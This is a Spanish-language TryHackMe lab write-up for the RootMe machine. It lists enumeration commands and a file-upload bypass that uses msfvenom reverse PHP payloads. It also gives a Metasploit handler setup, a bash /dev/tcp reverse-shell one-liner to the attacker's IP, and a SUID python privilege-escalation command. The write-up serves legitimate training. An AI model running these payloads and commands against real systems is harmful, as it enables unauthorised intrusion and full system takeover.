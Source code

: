 ```yaml
---
tags:
  - Cybersecurity
  - Labs
  - TryHackMe
  - Linux
  - FileUpload
  - SUID
---
```

- [[#Enumeración|Enumeración]]
	- [[#Enumeración#Ping|Ping]]
	- [[#Enumeración#Nmap|Nmap]]
	- [[#Enumeración#Fuzzing Web|Fuzzing Web]]
- [[#Explotación|Explotación]]
	- [[#Explotación#File Upload|File Upload]]
	- [[#Explotación#MSFvenom|MSFvenom]]
	- [[#Explotación#SUID|SUID]]

---
# Resolviendo la máquina RootMe

>En esta publicación, comparto cómo resolví la máquina [RootMe](https://tryhackme.com/room/rrootme) de [TryHackMe](https://tryhackme.com/).

---
## Enumeración
### Ping

Se ejecuta un *ping* para verificar la conectividad con la máquina y obtener pistas sobre su sistema operativo.

`ping -c 1 10.10.32.143`

![[Pasted image 20250711191823.png]]

*TTL=63* -> **Linux**
### Nmap

Se realiza un escaneo de puertos.

`nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.32.143 -oG allPorts`

![[Pasted image 20250711192131.png]]

`nmap -p22,80 -sCV 10.10.32.143 -oN targeted`

![[Pasted image 20250711192146.png]]
### Fuzzing Web

Se realiza **Fuzzing Web** para buscar directorios.

`gobuster dir -u http://10.10.32.143/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt`

![[Pasted image 20250711193116.png]]

`http://10.10.32.143/panel/`

![[Pasted image 20250711193149.png]]

`http://10.10.32.143/uploads/`

![[Pasted image 20250711193221.png]]

---
## Explotación
### File Upload

Se genera un payload con *MSFvenom* con extensión `.php` para intentar una ejecución remota en el servidor.

`msfvenom -p php/reverse_php LHOST=10.9.1.116 LPORT=444 -f raw > pwned.php`

![[Pasted image 20250711193515.png]]

Se vuelve a generar un *payload malicioso* con extensión `.phtml`.

`msfvenom -p php/reverse_php LHOST=10.9.1.116 LPORT=444 -f raw > pwned.phtml`

![[Pasted image 20250711193656.png]]

`http://10.10.32.143/uploads/`

![[Pasted image 20250711193733.png]]
### MSFvenom

Uso de *Metasploit* para recibir la conexión inversa del *payload* previamente cargado.

`multi/handler`

```
search multi/handler
use 0 | use multi/handler
show options
set LHOST 10.9.1.116
set LPORT 444
set PAYLOAD php/reverse_php
exploit
```

![[Pasted image 20250711194105.png]]

![[Pasted image 20250711195102.png]]

Una vez establecida la conexión, se ejecuta una *reverse shell* para asegurar persistencia en el acceso.

`bash -c "sh -i >& /dev/tcp/10.9.1.116/445 0>&1"`

Se realiza el tratamiento de la terminal.

```
script /dev/null -c bash 
Ctrl + Z 
stty raw -echo; fg
reset xterm 
export TERM=xterm 
export SHELL=bash
```

![[Pasted image 20250711195733.png]]
### SUID

Se realiza una búsqueda de binarios **SUID** para la escalada de privilegios. 

`find / -perm -4000 2>/dev/null`

![[Pasted image 20250711195247.png]]

Se observa un permiso sospechoso: *usr/bin/python*. Se realiza una búsqueda por [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/).

![[Pasted image 20250711195503.png]]

`/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`

![[Pasted image 20250711195606.png]]

---